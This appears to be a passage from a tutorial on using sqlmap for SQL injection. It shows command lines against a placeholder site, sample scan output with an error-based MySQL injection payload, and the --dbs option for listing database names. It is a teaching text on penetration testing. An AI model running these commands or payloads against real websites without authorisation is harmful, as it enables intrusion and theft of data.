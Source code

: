 Once we know the basic options of the tool, we will see an example of how to use it:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1"`

Something very important to keep in mind is that sqlmap scans the page parameter by parameter, this means that if we have a page with more than one parameter we have to specify the port that we want to analyze or scan all one by one.


When you start the scan, it is divided into parts:

It will scan the connection to the page.
It will scan the page for any WAF or IPS:

` [INFO] checking if the target is protected by some kind of WAF/IPS` 

At the end of the scan, something like this will appear:

```
[*] starting at 12:10:33

[12:10:33] [INFO] resuming back-end DBMS 'mysql' 
[12:10:34] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=3 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:10:37] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5

```
This means that the scan has finished, that the page is vulnerable and that we managed to attack it successfully. The following is to extract the name of the database, to extract the name of the databases we are going to use the `--dbs` option:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1" --dbs`

When we finish we will have the names of the databases, something like this:

```
[*] starting at 12:12:56

[12:12:56] [INFO] resuming back-end DBMS 'mysql' 
[12:12:57] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id3=1 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:13:00] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:13:00] [INFO] fetching database names
[12:13:00] [INFO] the SQL query used returns 2 entries
[12:13:00] [INFO] resumed: information_schema
```